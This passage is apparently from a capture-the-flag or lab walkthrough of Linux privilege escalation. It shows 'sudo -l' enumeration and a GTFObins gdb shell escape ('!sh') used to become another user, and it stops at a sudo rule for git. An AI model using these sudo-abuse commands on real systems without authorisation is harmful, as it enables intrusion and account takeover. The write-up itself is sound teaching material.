 When I first get a shell on machine I always run 'sudo -l' to check for a quick win. 

```highlight
www-data@ubuntu-xenial:/home/d4rckh$ sudo -l
Matching Defaults entries for www-data on ubuntu-xenial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu-xenial:
    (thirtytwo) NOPASSWD: /var/www/gdb
www-data@ubuntu-xenial:/home/d4rckh$ 
```

Im not disappointed, we can run the command gdb as the user thirtytwo. A quick look on [GTFObins](https://gtfobins.github.io/gtfobins/gdb/#sudo) shows I can use gdb to priv esc to the thirtytwo user.

```highlight
www-data@ubuntu-xenial:/home/d4rckh sudo -u thirtytwo /var/www/gdb -nx -ex '!sh' -ex quit
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word".
$ 
$ id
uid=1004(thirtytwo) gid=1004(thirtytwo) groups=1004(thirtytwo)
$ cd /home/thirtytwo
$ ls
note.txt
$ cat note.txt
Hey 32, the other day you were unable to clone my github repository.
Now you can use git. Took a while to fix it but now its good :)

~D4rckh
$ 
```

Now has user thirtytwo I navigate to the home directory and find a note from D4rckh. So again I checked 'sudo -l'.

```highlight
$ sudo -l
Matching Defaults entries for thirtytwo on ubuntu-xenial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User thirtytwo may run the following commands on ubuntu-xenial:
    (d4rckh) NOPASSWD: /usr/bin/git
$ 
```
